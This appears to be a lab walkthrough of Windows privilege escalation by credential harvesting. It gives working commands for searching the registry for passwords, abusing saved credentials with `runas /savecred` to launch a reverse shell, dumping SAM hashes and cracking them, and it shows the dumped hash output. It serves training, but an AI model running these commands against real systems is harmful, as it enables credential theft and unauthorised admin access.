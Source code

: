 ----------------------
### Looking for passwords in Registry:
- We can search registry for passwords, sometimes we can find other user's passwords or even owner's password.
- Run `reg query HKLM /f password /t REG_SZ /s` this gives all the details in registry which contains **password** string, search and you might find it! But the sad part is I was unable to obtain any!
- Also run `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
`, we might find some information.
- We can also make use of our legendary tool **winPEAS** run with some options like `windowscreds` - looks for credentials, also `filesinfo` - looks into files and registry for useful data(sometimes passwords also)
- After obtaining password here it's `password123`, so now lets login with the help of **psexec**(link: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) and the syntax is `python3 psexec.py admin@10.10.150.253` then it'll prompt for password mention it and we'll get access like admin!

-------------------------
### Passwords : Savedcreds
- First of all run `cmdkey /list`, here **cmdkey** is an windows-server application that *Creates, lists, and deletes stored user names and passwords or credentials*. By running this we can see what are all the credentials of users saved!
- Th output is,
```
Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```
- We can see the user **admin** so lets make use of **runas** utility. *It allows a user to run specific tools and programs with different permissions than the user's current logon provides.*
- lets run `runas /savecred /user:admin C:\Temp\reverse.exe`, this will give us the admin privileges

------------------
### Passwords: SAM(Security Accounts manager)
- SAM consists of NTLM hashes of windows passwords, we have chance to crack them but this might not always be helpful because we're dealing with hashes!
- But knowing the method will definitely helps.
- And 99% of the times SAM file cannot be accessed with normal privileges, but here in the box the author created a copy of SAM file in `C:\Windows\Repair` directory, so that we can play! Here in that directory there are 2 files namely, `SAM` and `SYSTEM`
- We need to get both the files so that we can use with a tool named **creddump7**(https://github.com/CiscoCXSecurity/creddump7). I got them thru the help of meterpreter `download` command
- Now after cloning run the following command `python2 pwdump.py /opt/work/SYSTEM /opt/work/SAM` it'll now display the hashes of users that are available in windows machine. The output is,
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```
- Now save the above content in a text file and now crack it with the help of **JohnTheRipper**, the syntax is `john --format=NT hashes.txt --wordlist=/usr/share/wordlist/rockyou.txt`, and it cracked!